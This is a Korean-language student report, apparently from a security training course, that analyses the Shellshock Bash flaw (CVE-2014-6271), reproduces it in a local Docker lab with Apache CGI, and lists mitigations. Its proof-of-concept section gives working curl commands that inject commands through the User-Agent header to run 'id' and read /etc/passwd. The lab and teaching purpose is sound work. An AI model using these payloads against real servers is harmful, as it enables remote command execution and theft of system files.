


# CVE-2014-6271 (Shellshock) 취약 환경 분석 보고서

- **CVE ID**: CVE-2014-6271
- **취약 대상**: GNU Bash 1.03 ~ 4.3 (패치 이전)
- **분류**: Remote Command Execution (RCE)
- **작성자**: 화이트햇 스쿨 4기 15반 손민우 (q09009)
- **작성일**: 2026-07-04

---

## 1. 요약

GNU Bash는 환경변수 값이 `() {` 로 시작하면 이를 함수 정의로 해석한다. 그런데
패치 이전 버전은 함수 정의가 끝난 뒤에도 파싱을 멈추지 않고, **함수 정의 뒤에
붙은 임의의 명령어까지 그대로 실행**해버리는 결함이 있다.

이 결함은 그 자체로는 로컬 문제처럼 보이지만, Apache의 CGI(Common Gateway
Interface)처럼 **HTTP 요청 헤더를 환경변수로 변환해 Bash에 전달하는 구조**와
결합하면 원격 명령 실행(RCE)으로 이어진다. 공격자는 `User-Agent`, `Referer`
등 임의로 조작 가능한 헤더에 악성 페이로드를 실어 보내는 것만으로 서버에서
임의 명령을 실행시킬 수 있다.

본 보고서는 취약한 bash 4.3을 Docker 컨테이너로 직접 빌드하여 이 취약점을
재현하고, 실제로 `/etc/passwd`를 원격에서 탈취하는 과정까지 확인한다.

---

## 2. 분석 — 취약점 발생 원리

### 2.1 정상적인 Bash 함수 정의 파싱

```bash
$ env x='() { :;}' bash -c "echo hello"
hello
```

정상 동작이라면 함수 정의는 정의로만 끝나고, 그 이후 아무 영향을 주지 않아야
한다.

### 2.2 취약한 Bash의 파싱 오류

```bash
$ env x='() { :;}; echo vulnerable' bash -c "echo hello"
vulnerable
hello
```

패치 이전 Bash는 함수 정의(`() { :;}`)를 끝내는 `}` 뒤에 오는 세미콜론 이후의
문자열을 **별도의 명령어로 취급해 즉시 실행**한다 (hello만 출력돼야 함). 이것이 Shellshock의 핵심
결함이다.

### 2.3 CGI와 결합했을 때의 공격 경로

```
[공격자] --HTTP 요청 (User-Agent 헤더 조작)--> [Apache + mod_cgi]
                                                      │
                                    HTTP_USER_AGENT 환경변수로 변환
                                                      │
                                                      ▼
                                        [CGI 스크립트 실행 (#!/bin/bash)]
                                                      │
                                    취약한 Bash가 환경변수를 파싱하며
                                    악성 명령어까지 그대로 실행
                                                      │
                                                      ▼
                                        [공격자가 원하는 명령이 서버에서 실행됨]
```

Apache는 클라이언트가 보낸 HTTP 헤더를 CGI 규격에 따라
`HTTP_<헤더이름>` 형태의 환경변수로 변환하여 CGI 프로세스에 넘긴다. 이때
CGI 스크립트의 셔뱅(`#!/bin/bash`)이 취약한 버전을 가리키고 있다면, 헤더 값에
숨겨둔 명령어가 그대로 실행된다.

취약 조건 3가지 (모두 충족해야 함):
1. 애플리케이션이 **공격자가 값을 제어할 수 있는 환경변수**를 설정한다
2. 그 환경변수를 **Bash가 로드**한다
3. 로드하는 Bash가 **패치 이전 취약 버전**이다

---

## 3. 환경 구성

### 3.1 구성 방식

Docker Hub의 서드파티 이미지에 의존하지 않고, **GNU 공식 소스 아카이브**
(`https://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz`)에서 패치 이전 bash 4.3
소스코드를 받아 컨테이너 내부에서 직접 컴파일·설치하는 방식으로 구성했다.
Bash 4.3의 Shellshock 패치(`bash43-025`)는 2014-09-24에 배포되었으므로,
그 이전 시점의 4.3 GA(초기 릴리즈) 소스는 취약한 상태 그대로다.

### 3.2 디렉터리 구조

```
shellshock-cve-2014-6271/
├── Dockerfile          # 취약 bash 빌드 + Apache CGI 환경 설계도
├── docker-compose.yml  # 실행 정의 (docker compose up 하나로 기동)
├── vulnerable.cgi       # 취약점 트리거용 CGI 스크립트
└── README.md
```

### 3.3 실행 방법

```bash
git clone <레포 url>
cd kr-vulhub/CVE-2014-6271
docker compose up -d --build
docker compose ps        # 컨테이너 Up 상태 확인
```

---

## 4. 재현 절차 (PoC)

### 4.1 정상 요청 (베이스라인)

```bash
curl http://localhost:8080/cgi-bin/vulnerable.cgi
```

**예상 결과**:
```
Hello from vulnerable CGI!
```

### 4.2 취약점 트리거 — 명령 실행 확인

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'" \
    http://localhost:8080/cgi-bin/vulnerable.cgi
```

### 4.3 취약점 트리거 — 민감 파일 탈취

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c '/bin/cat /etc/passwd'" \
    http://localhost:8080/cgi-bin/vulnerable.cgi
```

---

## 5. 실행 결과

### 5.1 환경 구성 ~ 명령 실행 성공

이미지 빌드 성공 로그, `docker compose ps`로 컨테이너 Up 상태 확인, 정상 요청 확인,
그리고 조작된 `User-Agent` 헤더로 `id` 명령을 주입해 실행에 성공한
결과까지 한 세션에서 이어서 캡처했다.



### 5.2 민감 파일 탈취

동일한 방식으로 `/bin/cat /etc/passwd`를 주입해, 서버의 `/etc/passwd`
파일 내용이 응답 본문에 그대로 노출되는 것을 확인했다.



---

## 6. 대응방안

1. **Bash 업그레이드 (근본 대책)**
   - Debian/Ubuntu: `apt-get update && apt-get install --only-upgrade bash`
   - RHEL/CentOS: `yum update bash`
   - 패치된 버전은 함수 정의 뒤 문자열을 명령어로 실행하지 않는다.

2. **최소 권한 원칙 적용**
   - 슬라이드 25의 하드닝 체크리스트와 동일: 웹서버 프로세스를 non-root로
     실행하면, Shellshock가 터지더라도 피해 범위를 제한할 수 있다.

---

## 7. 참고자료

- NVD, CVE-2014-6271
- GNU Bash 공식 소스 아카이브: https://ftp.gnu.org/gnu/bash/
- vulhub/vulhub — Pre-Built Vulnerable Environments (참고용, 본 환경은
  직접 재구성함)
